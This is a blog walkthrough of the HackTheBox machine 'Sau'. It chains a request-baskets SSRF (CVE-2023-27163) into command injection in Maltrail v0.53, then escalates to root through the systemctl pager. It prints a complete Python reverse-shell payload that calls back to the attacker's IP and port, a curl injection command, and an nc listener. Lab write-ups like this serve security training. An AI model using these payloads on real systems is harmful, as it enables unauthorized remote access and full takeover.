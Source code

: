 ```yaml
---
layout: post
title: "HackTheBox: Sau"
image: /assets/thumbnails/sau-thumbnail.png
---
```


> This is the walkthrough of the machine Sau on HackTheBox. It is a beginner-friendly challenge that invloves CVE researching and exploitation.  

---

## Enumeration

A quick nmap scan shows open ports 22, 80 and 55555. Port 80 is filtered. This is most likely the result of a firewall. 

## Exploit 1 - SSRF

So let's navigate to `http://10.10.11.224:55555/web`. In the page source we see the web app uses request-baskets 1.2.1. Let's search for "request-baskets 1.2.1 exploit". First thing we find is [CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163){:target="_blank"} - a proof-of-concept for a Server-Side Request Forgery (SSRF) vulnerability.

{% include explanation-box.html content="An SSRF (Server-Side Request Forgery) attack is when a malicious actor tricks a web server into making unintended requests to other servers or services. Think of it like a hacker convincing a website to fetch data from a different website or resource than intended, often exploiting the trust that the server has with other internal resources." %}

Together with the fact that port 80 is filtered and unacessible from outside, this means that we should be able to forge a request from port 55555 on the remote server to its own port 80, hosted locally. Thus allowing us to see the web page at port 80. We can use the PoC by entr0pie to do this like:

![ssrf](/assets/img/projects-img/sau-poc-output.PNG){: class="center-image"}

We need to specify the local port 80 since it will be routed internally thus avoid ing any external firewalls. 

## Exploit 2 - Command Injection

On local port 80 we see right away that a Mailtrail v0.53 app. 

![mailtrail](/assets/img/projects-img/sau-mailtrail-website.PNG){: class="center-image"}

Once again look up the application name and version for exploit. You should find [this remote code execution (RCE) vulnerability](https://github.com/spookier/Maltrail-v0.53-Exploit){:target="_blank"}. Basically, in Mailtrail v0.53 the ```username``` parameter of the login page doesn't properly sanitize the input leaving it wide open for a command injection attack. 

{% include explanation-box.html content="A command injection vulnerability allows us to execute system commands directly on the back-end hosting server." %}

In this particular case, we can add a semi-colon after the username value and then the command (reverse shell). Basically, you should be able to exploit the vulnerability yourself like so:

```bash
echo python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.1",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\' | base64 > encoded_payload

curl '172.16.1.10' --data 'username=;`echo+\"$encoded_payload\"+|+base64+-d+|+sh`'
```

Don't forget to use your own IP and listening port. Catch the reverse connection using a listener (```nc -lnvp 1337```) and you are in. You can use ```python3 -c 'import pty;pty.spawn("/bin/bash");'``` to upgrade your shell.

## Privilege escalation

We run ```sudo -l``` and we see we can run ```/usr/bin/systemctl status trail.service``` as root. A quick check in [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/){:target="_blank"} tells us that the command opens the default pager which is likely to be ```less```. However, the pager allows command execution. So once it is opened simply type ```!sh``` and hit ENTER. The machine is rooted.

![mailtrail](/assets/img/projects-img/sau-root.PNG){: class="center-image"}


